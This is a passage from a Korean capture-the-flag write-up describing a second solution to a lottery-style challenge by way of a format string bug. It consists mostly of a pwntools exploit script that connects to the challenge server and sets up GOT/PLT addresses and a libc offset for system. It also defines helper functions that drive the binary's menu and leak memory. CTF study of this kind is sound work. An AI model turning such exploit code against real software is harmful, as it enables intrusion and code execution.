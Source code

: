 ### 4.2. 풀이 2 (FSB)

아까 풀이 1에서의 플래그를 보면 알 수 있겠지만 문제의 의도는 FSB를 활용하는 방법인 것 같다  
<br>

---

```python
from pwn import *

# p = process("./chal")
# p = remote("localhost", 1004)
p = remote("15.164.180.104", 11004)
e = ELF("./chal", checksec = True)

context.arch = "amd64"
context.log_level = "debug"

# GOT/PLT
atoi_got = e.got['atoi']
exit_got = e.got['exit']
printf_plt = e.plt['printf']
start = 0x401170

# libc offset
system_offset = 0x58750

def set_name(name):
    p.sendafter(b"name : ", name)

def draw(num):
    p.sendlineafter(b'=> ', b'1')
    p.sendlineafter(b'Number : ', str(num).encode())

    if b"Please" in p.recvline():
        return 0
    else:
        return 256

def rename(name):
    p.sendlineafter(b'=> ', b'2')
    p.sendafter(b'name : ', name)

def info():
    p.sendlineafter(b'=> ', b'3')
    p.recvuntil(b'Name : ')
    print("Name: ", p.recvline())
    p.recvuntil(b'held : ')
    print("Asset: ", p.recvline())

def flag():
    p.sendlineafter(b'=> ', b'4')
    print("FLAG: ", p.recvline())

def exit():
    p.sendlineafter(b'=> ', b'0')

def get_lottery():
    p.sendlineafter(b"=> ", b'3')
    p.recvuntil(b'A'*0x30)
    byte = p.recvn(8).ljust(8, b'\x00')
    lottery = u64(byte)

    return lottery
```